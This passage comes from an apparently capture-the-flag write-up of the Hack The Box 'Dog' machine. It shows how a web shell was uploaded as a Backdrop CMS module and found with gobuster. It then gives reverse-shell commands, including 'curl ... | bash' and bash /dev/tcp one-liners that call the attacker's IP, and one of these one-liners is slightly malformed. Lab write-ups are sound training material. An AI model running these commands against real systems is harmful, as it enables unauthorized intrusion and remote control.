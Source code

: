     **Exploitation Steps:**

    1.  **Create a `.tar` file:** We placed `shell.info` and `shell.php` inside a folder (e.g., `shell/`) and then compressed it into a `.tar` file (e.g., `shell.tar`).
    2.  **Upload the file:** We navigated to the module/theme upload section in Backdrop CMS.
        * **URL:** `http://10.10.11.58/admin/modules/install` (or similar, in the `Configuration` -> `Install projects` menu).
        * We uploaded `shell.tar` via the "Upload a module, theme, or layout archive to install" option.
    3.  **Confirm Upload:** The CMS reported "Installation was completed successfully".

    ![Screenshot of Backdrop CMS module upload interface](/cv-juan/images/dog-htb/module-upload.png "Uploading the malicious module")
    *Caption: The Backdrop CMS interface for uploading a new module/theme.*

    ### Locating the Uploaded Shell

    After the upload, we needed to find where the shell was saved. The PDF indicates that "fuzzing" (directory/file enumeration) was performed with Gobuster.

    ```bash
    gobuster dir -u [http://10.10.11.58/](http://10.10.11.58/) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
    ```

    Fuzzing revealed the `modules/` directory, and within it, we could access our shell:

    **Shell URL:** `http://10.10.11.58/modules/shell/shell.php`

    We were able to execute commands via the `cmd` parameter, for example, `http://10.10.11.58/modules/shell/shell.php?cmd=whoami`.

    **Initial User:** `www-data`

    ![Screenshot of the web shell with command execution](/cv-juan/images/dog-htb/web-shell-rce.png "Web Shell Remote Code Execution")
    *Caption: Executing commands via the uploaded web shell.*

    ### Establishing a Reverse Shell

    The "Dog" machine has a script that deletes uploaded files, so an interactive shell is crucial. We set up a local HTTP server and a `netcat` listener to get a reverse shell.

    1.  **On the Attacker Machine (Kali/Parrot):**
        * Start a Netcat listener:
            ```bash
            nc -lvnp 4444
            ```
        * Start a simple HTTP server to serve the reverse shell script:
            ```bash
            python3 -m http.server 5555
            ```

    2.  **From the Web Shell on Dog:**
        * We downloaded and executed a reverse shell script. In this case, we used `curl` to download a `bash` script and execute it. The `bash` script contains the following line:
            ```bash
            bash -i & /dev/tcp/10.10.14.40/4444 0>&1
            ```
            Where `10.10.14.40` is your attacker machine's IP.
        * Command in the web shell:
            ```bash
            curl 10.10.14.40:5555 | bash
            ```
            Or directly:
            ```bash
            bash -c "bash -i >& /dev/tcp/10.10.14.40/4444 0>&1"
            ```

